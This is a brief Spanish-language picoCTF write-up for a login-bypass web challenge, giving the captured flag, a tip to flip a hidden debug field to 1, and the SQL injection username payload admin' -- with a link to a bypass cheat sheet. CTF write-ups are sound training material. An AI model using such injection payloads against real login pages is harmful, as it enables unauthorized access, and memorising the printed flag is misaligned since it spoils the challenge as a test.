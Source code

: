 
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

## Solución
```
# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
<input type="hidden" name="debug" value="0">
value por 1
Tambien el usuario entra como:
admin' --
```
## Notas adicionales
## Referencias 
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
